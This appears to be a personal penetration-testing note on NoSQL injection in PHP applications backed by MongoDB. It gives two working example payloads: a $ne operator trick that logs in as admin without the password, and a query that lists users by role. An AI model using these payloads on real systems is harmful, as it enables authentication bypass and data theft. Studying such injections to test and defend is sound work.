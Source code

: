 
# NoSQL Injection
Tags: #nosql #php #mongo
Related to: [[sqli]]
See also:
Previous:

## Links
Title:
Link:
About:

## Notes
### Mongo + PHP
PHP will coerce arrays passed in params into key-value pairs that can be used for NoSQL injection

Example payload. Tries to login as the admin user and changes the logic from matching 'password == "admin"' to returning the result when the password does not equal 'admin'

`POST /login
[...]

username=admin&password[$ne]=admin
`

Example: show all users with a role of guest:
`/search?username[$ne]=a&role=guest`